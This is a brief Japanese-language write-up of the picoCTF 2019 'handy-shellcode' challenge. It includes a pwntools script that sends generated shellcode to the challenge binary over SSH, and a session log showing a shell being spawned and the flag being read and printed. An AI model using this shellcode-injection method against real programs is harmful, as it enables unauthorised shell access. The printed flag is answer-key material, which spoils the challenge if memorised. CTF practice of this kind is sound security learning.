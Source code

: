 # handy-shellcode

## 問題
> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6 on the shell server. Source.

## 解答

shellcodeを送れば実行してくれるらしい。

`pwntools`に作ってもらう

```python
from pwn import *

path = "/problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6"

sh = ssh(host="2019shell1.picoctf.com", user="", password="")
io = sh.run("cd " + path + ";./vuln")

print(io.recv())

exploit = asm(shellcraft.sh())

io.sendline(exploit)
io.interactive()
```

実行する

```shell
$ python exploit.py
[+] Connecting to 2019shell1.picoctf.com on port 22: Done
[*] 99999@2019shell1.picoctf.com:
Distro    Ubuntu 18.04
OS:       linux
Arch:     amd64
Version:  4.15.0
ASLR:     Enabled
[+] Opening new channel: 'cd /problems/handy-shellcode_2_6ad1f834bdcf9fcfb41200ca8d0f55a6;./vuln': Done
Enter your shellcode:

[*] Switching to interactive mode
jhh///sh/bin\x89h\x814$ri1Qj\x04YQ1j\x0bX̀
Thanks! Executing now...
$ $ ls
flag.txt  vuln    vuln.c
$ $ cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_707f1a87}$ $ exit
[*] Got EOF while reading in interactive
$ exit
[*] Closed SSH channel with 2019shell1.picoctf.com
[*] Got EOF while sending in interactive
```

完全にscript kidy。  
これぐらい自力で作れるようにならないとだめだな